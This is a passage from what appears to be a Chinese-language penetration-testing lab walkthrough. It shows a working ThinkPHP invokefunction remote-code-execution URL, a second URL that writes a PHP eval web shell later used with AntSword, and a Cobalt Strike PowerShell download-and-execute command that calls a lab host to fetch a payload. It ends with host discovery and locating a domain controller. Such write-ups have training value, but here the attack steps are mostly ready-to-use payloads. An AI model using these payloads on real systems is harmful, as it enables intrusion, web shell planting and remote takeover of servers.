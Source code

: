 ```
http://192.168.146.129/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

写入一句话，之后访问shell.php虽然页面上没显示，但是没报404应该成功写入了

```
http://192.168.146.129/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20^%3C?php%20@eval($_POST[%22cmd%22]);?^%3E%3E%3Eshell.php
```

![image-20210514111617571](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514111617571.png)

之后蚁剑连接

![image-20210514112555067](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514112555067.png)



## 横向

### CS

CS新建listener,之后选用如下模块和配置

![image-20210514114136815](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514114136815.png)



![image-20210514114256476](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514114256476.png)

最终会生成一串指令

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.146.128:80/a'))"
```

![image-20210514114333048](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514114333048.png)

蚁剑控制台执行

![image-20210514114607854](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514114607854.png)

CS上线

![image-20210514114626513](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514114626513.png)

主机发现

![image-20210514141511549](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514141511549.png)

信息收集 

发现在域内，且域控为192.168.138.138

